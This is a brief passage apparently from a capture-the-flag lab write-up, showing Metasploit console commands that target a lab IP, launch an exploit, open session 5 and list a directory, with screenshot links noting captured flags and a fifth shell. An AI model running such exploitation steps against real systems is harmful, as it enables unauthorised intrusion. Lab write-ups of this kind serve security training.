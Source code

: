 ![](./images/拿到第三个flag.png)
```bash
set RHOSTS 192.170.84.4
exploit -j
sessions -i 5

ls /tem
```
![](./images/拿到第五个shell.png)
![](./images/拿到第四个flag.png)
